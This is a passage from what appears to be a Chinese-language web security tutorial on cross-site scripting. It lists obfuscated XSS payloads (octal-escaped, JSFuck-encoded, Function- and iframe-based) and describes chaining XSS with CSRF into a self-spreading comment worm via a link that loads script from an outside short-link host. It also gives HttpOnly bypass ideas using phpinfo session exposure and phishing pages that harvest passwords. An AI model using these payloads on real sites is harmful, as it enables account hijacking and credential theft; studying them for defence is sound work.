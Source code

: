 ```html
<img src=x onerror="[][$='\143\157\156\163\164\162\165\143\164\157\162'][$]('\141\154\145\162\164(1)')()">
<img src=x onerror="[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()">
// 创建匿名函数。
<video/src/onerror=Function('alert(1)')();>
// 数组转字符。
<iframe onload=location=['java','script:','alert(1)'].join('')>
// 利用 object。
<object data=javascript:alert(1)>
```

## 结合利用

> XSS + CSRF实现蠕虫。

需要将 POST 请求的数据换成 GET 请求：

![](/images/4.png)

获取短链接，这个链接的功能是发表一个评论：

```html
http://xxx.edu.cn/meol/xxx?type=0&studyCircleId=&saytext=<script src=http://suo.im/xxx></script>
```

当他人访问到这个链接的时候，将会自动以登陆的账号发布该评论：

![](/images/5.png)

## HTTP only

**HttpOnly** 是包含在 Set-Cookie HTTP 响应标头中的附加标志。在生成 cookie 时使用 HttpOnly 标志有助于降低客户端脚本访问受保护 cookie 的风险，如果 HttpOnly 标志（可选）包含在 HTTP 响应标头中，则无法通过客户端脚本访问 cookie，如果浏览器支持这个标志。因此，即使存在跨站脚本（XSS）漏洞，并且用户意外访问了利用此漏洞的链接，浏览器也不会将 cookie 泄露给第三方。

### 绕过技术

在`phpinfo()`中可以看到存储的 session。

![](/images/6.png)

如果无法读取`Cookie`，可以使用伪造钓鱼页面的方式劫持用户输入，从而获取用户账号密码。